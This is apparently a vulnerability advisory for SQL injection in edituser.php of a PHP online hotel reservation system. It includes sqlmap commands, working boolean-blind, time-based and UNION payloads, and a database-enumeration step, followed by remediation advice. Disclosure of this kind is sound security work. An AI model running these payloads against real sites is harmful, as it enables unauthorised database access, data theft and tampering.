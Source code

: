 # Online Hotel Reservation System In PHP With Source Code - SQL Injection in edituser.php

## NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- YoSheep

### VERSION(S)

- V1.0

### Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

## PROBLEM TYPE

### Vulnerability Type

- SQL injection

### Root Cause

- The edituser.php component directly interpolates the userid parameter into SQL statements without proper sanitization or use of prepared statements. This unsafe practice allows adversaries to inject crafted SQL payloads, thereby altering the intended query logic and executing arbitrary SQL commands against the backend database.

### Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION

- During a security assessment of the *Online Hotel Reservation System In PHP With Source Code*, a critical SQL injection vulnerability was identified in the edituser.php file. The flaw arises from insufficient validation of the userid parameter, which is directly embedded into SQL queries. Exploitation of this flaw allows unauthenticated attackers to inject arbitrary SQL statements, gain access to sensitive data, escalate privileges, and potentially gain control of the application environment. Immediate remediation is strongly advised to mitigate the risk of exploitation.

## Vulnerability Details and Proof of Concept (PoC)

### Vulnerability type:

* Boolean-based blind SQL injection
* Time-based blind SQL injection
* UNION-based SQL injection

### Vulnerability location:

* Parameter: id (GET)

### Proof of Concept Payloads

Using sqlmap, the injection can be demonstrated as follows:

```cmd
python3 sqlmap.py -u "http://xxx.xxx.xxx.xxx/newhotel/admin/edituser.php?id=1"
```

Example Findings:

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: id=1%' AND 4143=4143#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1%' AND (SELECT 6685 FROM (SELECT(SLEEP(5)))QwyR) AND 'vghs%'='vghs

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: id=1%' UNION ALL SELECT NULL,CONCAT(0x7171707671,0x64624b584f7078736c54714f53556a6d7245764648744e7347477950584e4d446d5172507251426b,0x716a767a71),NULL,NULL#
---
```

![image-20250825132332048](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250825132332048.png)、

### Attack Demonstration

An attacker can enumerate databases with the following command:

```
python3 sqlmap.py -u "http://xxx.xxx.xxx.xxx/newhotel/admin/edituser.php?id=1" --dbs
```

Example Result:

Extracted list of databases from the backend MySQL server.

![image-20250825132624083](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250825132624083.png)

## Suggested Remediation

1. **Use Prepared Statements and Parameterized Queries**

   Implement parameterized queries (mysqli or PDO) to ensure user inputs are treated strictly as data, preventing SQL injection.

2. **Implement Input Validation and Sanitization**

   Validate incoming parameters against expected formats (e.g., numeric IDs). Reject or sanitize unexpected input before processing.

3. **Apply the Principle of Least Privilege**

   Restrict the privileges of the database account used by the application. Avoid using high-privilege accounts (e.g., root).

4. **Conduct Regular Security Audits**

   Periodically review source code and perform penetration testing to identify and remediate potential vulnerabilities.

5. **Upgrade Deprecated Libraries**

   Replace legacy mysql_* functions with mysqli or PDO, which provide better security support and long-term maintainability.